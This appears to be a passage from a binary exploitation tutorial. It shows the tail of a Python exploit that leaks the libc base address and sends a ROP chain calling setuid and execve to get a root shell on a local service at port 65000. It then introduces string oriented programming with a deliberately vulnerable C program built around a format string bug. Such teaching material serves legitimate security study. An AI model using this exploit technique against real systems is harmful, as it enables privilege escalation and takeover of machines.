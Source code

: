 ```
    pop_rdi = pack(0x400813) # pop rdi, from the executable

    return b'A' * 0x80 + b'BBBBBBBB' + pop_rdi + pack(0) + setuid + execve

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

skt.connect(('localhost', 65000))

server = Telnet()
server.sock = skt

server.read_until(b'insert the password: ')

print("[!] sending leak payload")
server.write(leaker_payload())

leakage = server.read_until(b'\n')

libc_base = get_libc_base(str(leakage).split('your input: 0x')[1].split('AAAAA')[0])

print("[+] libc base address: ", hex(libc_base))

print("[!] sending root payload")
server.write(root_shell(libc_base))
server.interact()

server.close()
```

## ROP Without Overflow? Introduction To String Oriented Programming

What is String Oriented Programming? To find out take a look at `rip_str.c`:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {

	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);

	printf("#### Dialog Maker 2000 ####\n");

	printf("me: Is there something you want to tell me?\n");

	char msg[128];

	read(0, msg, sizeof(msg));

	printf("you:");  printf(msg); printf("\n");

	printf("me: okay, cool, i got it.\n");

	exit(0);
}
```
